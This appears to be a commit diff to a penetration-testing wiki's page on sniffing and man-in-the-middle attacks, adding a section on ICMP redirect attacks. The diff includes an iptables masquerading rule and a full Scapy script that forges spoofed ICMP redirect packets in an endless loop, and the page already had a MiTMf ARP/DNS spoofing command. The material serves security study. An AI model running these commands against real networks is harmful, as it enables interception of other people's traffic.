

Before and after one commit to Sudneo/sec-wiki, an MkDocs documentation site: the page built from docs/Service_Exploitation/Sniffing_and_MitM.md, in a window 1280 px wide and 1400 px high, scrolled down 2347 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; before the commit the page ends 2977 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Adds ICMP redirect attack

````diff
--- a/docs/Service_Exploitation/Sniffing_and_MitM.md
+++ b/docs/Service_Exploitation/Sniffing_and_MitM.md
@@ -117,3 +117,61 @@ Tools that implement this technique include `MiTMf`.
 ```bash
 python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway IP --targets IPs
 ```
+
+### ICMP Redirect
+
+This technique works between a local and a remote target (e.g., a client in the same subnet and a
+webserver elsewhere). The idea is to use a ICMP type 5 code 1 packet to signal to a victim's machine
+that there is a better gateway to reach the destination. Once received, the victim will start sending traffic through
+the specified gateway.
+
+To mount this attack it might be necessary to also use iptables to perform masquerading, to NAT the
+packets coming from the victim with the attacker IP, so that the target will send the answer back to
+us and not to the victim (breaking the MiTM).
+
+```
+# Here 10.100.13.0 is the network of the victim
+# tap0 is the outgoing interface for the traffic
+iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE
+```
+
+Then we can use Scapy to perform the attack, as this allows to conveniently forge packets as needed.
+
+```
+from scapy.all import *
+# Creating and sending ICMP redirect packets between these entities:
+# Gateway for our network
+originalRouterIP='10.100.13.1'
+# Our own IP
+attackerIP='10.100.13.20'
+# Target for the MiTM (i.e., client)
+victimIP='10.100.13.126'
+# Other target for the MiTM (i.e., server)
+serverIP='10.23.56.100'
+# Here we create an ICMP Redirect packet
+# This has type 5 code 1, which is a redirect with a payload which means
+#   Gateway Internet Address
+#      Address of the gateway to which traffic for the network specified
+#      in the internet destination network field of the original
+#      datagram's data should be sent.
+ip=IP()
+ip.src=originalRouterIP
+ip.dst=victimIP
+icmpRedirect=ICMP()
+icmpRedirect.type=5
+icmpRedirect.code=1
+icmpRedirect.gw=attackerIP
+# This is a TCP packet that fakes the continuation of the communication that
+# will be hijacked by the previous packet
+redirPayloadIP=IP()
+redirPayloadIP.src=victimIP
+redirPayloadIP.dst=serverIP
+fakeOriginalTCPSYN=TCP()
+fakeOriginalTCPSYN.flags="S"
+fakeOriginalTCPSYN.dport=80
+fakeOriginalTCPSYN.seq=444444444
+fakeOriginalTCPSYN.sport=55555
+# Launch the attack
+while True:
+    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
+```
````
